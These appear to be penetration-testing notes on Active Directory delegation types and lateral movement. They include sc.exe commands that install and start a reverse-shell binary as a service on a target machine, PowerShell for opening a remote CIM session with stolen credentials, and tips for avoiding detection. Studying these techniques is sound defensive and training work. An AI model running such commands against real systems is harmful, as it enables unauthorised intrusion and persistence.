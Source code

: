 # Delegation

## Unconstrained Delegation

- original insecure method of delegation (replaced by constrained delegation in 2003)
- can force user to authenticate to malicious host to intercept the TGT and therefore impersonate the user

## Constrained Delegation

- introduced in 2003
- restricts service account to services they are allowed to access

## Resource-Based Constrained Delegation

- introduced in 2012
- access to a resource is specified on the resource itself rather than the service account
    - the service specifies who can delegate to it

# Privilege Escalation

## Lateral Movement

- lateral movement typically done via WinRM, RDP, VNC, or SSH
- to stay stealthy avoid strange connections from one workstation to another (e.g. accessing code repository as a user who is part of the Marketing OU)

### Service

- create service on other workstation with a malicious binary and start the service

```bash
sc.exe \\TARGET create malicious_service binPath= "/path/to/reverse_shell.exe" start= auto
sc.exe \\TARGET start malicious_service
```

### Windows Management Implementation (WMI)

- session can be established either through **DCOM** (ports 135 and 49152-65535) or **Wsman** (port 5985 or 5986)
- outputs of commands are not seen by user when executing

**Storing session**

```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

All the following methodologies require Administrator privileges:
